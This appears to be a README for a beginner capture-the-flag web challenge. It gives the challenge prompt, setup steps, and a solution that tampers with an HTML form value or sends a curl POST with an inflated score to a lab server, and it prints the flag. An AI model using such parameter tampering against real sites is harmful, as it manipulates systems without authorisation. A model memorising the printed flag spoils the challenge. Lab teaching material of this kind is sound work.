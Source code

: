# Cringeyroll
Changing HTML elements

<i>Creator - @Platy</i>

## Category
Are you ready? 0

## Question
>OH MAH GAWD THE ANIMU AWARDS R HERE! OBVIOUSLY, YURI ON ICE IS GOING TO WIN, BUT SOME OTHER CRAP ANIME THAT I HAVEN'T WATCHED B4 R WINNING!!!11!!!1! MAKE THE YURI ON ICE SCORE 1000000!!! I GIV U FLAG IF U DO IT!
>
>Connect via `http://<ip address>:17122`

### Hint
None.

## Setup Guide
Do `sudo bash build.sh`

## Distribution
None.

## Solution
Most cringey challenge I have created ever.

<b>Inspect the elements</b>
```html
<form action="index.php" method="POST">
	<h3>Rate</h3>
	<select name="yoi">
		<option value="1">1</option>
		<option value="2">2</option>
		<option value="3">3</option>
		<option value="4">4</option>
		<option value="5">5</option>
		<input type="submit" value="Submit">
	</select>
</form>
```
Change the value from 1 to 1000200 and hit submit

Points will now be 1,000,000

<b>Curl</b>
```bash
curl 'http://192.168.159.131:30000/index.php'--data 'yoi=1000200' | grep GCTF
```

Too easy.

### Flag
`GCTF{7h3_4n1m3_4w4rd5_w3r3_r1663d}`

## Credits
Some challenge in hack this site.

## Recommended Reads
None.